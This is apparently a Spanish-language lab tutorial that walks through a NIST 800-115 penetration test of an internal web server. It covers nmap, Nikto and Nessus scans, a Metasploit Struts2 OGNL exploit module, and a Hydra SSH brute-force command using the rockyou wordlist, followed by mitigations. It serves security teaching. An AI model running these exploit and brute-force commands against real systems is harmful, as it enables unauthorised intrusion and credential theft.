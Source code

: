 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **Práctica con Kali Linux Siguiendo NIST 800-115**

Vamos a realizar una prueba de seguridad **siguiendo la metodología de NIST 800-115** en un entorno de laboratorio.

## **🔹 Paso 1: Planificación**

- Objetivo: Evaluar la seguridad de un servidor web en la red interna.
- Reglas: Solo escaneo y explotación controlada, sin afectar la disponibilidad del sistema.

## **🔹 Paso 2: Descubrimiento**

Escanear la red con Nmap para identificar servicios expuestos:

```bash
nmap -sS -A -T4 192.168.1.10
```

Si encontramos un servidor web, verificamos vulnerabilidades con **Nikto**:

```bash
nikto -h http://192.168.1.10
```

Escanear vulnerabilidades con **Nessus**:

```bash
sudo systemctl start nessusd
firefox https://localhost:8834
```

## **🔹 Paso 3: Ataque**

Si Nikto detecta una vulnerabilidad en el servidor web, intentamos explotación con **Metasploit**:

```bash
msfconsole
use exploit/multi/http/struts2_content_type_ognl
set RHOSTS 192.168.1.10
set TARGETURI /login
exploit
```

Si hay un servicio SSH con credenciales débiles, intentamos fuerza bruta con **Hydra**:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 ssh
```

## **🔹 Paso 4: Reporte**

Documentamos los hallazgos, impacto y mitigaciones, incluyendo: 

✅ **Actualizar software vulnerable**.
✅ **Implementar políticas de contraseñas seguras**.
✅ **Restringir accesos mediante firewall**.





![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)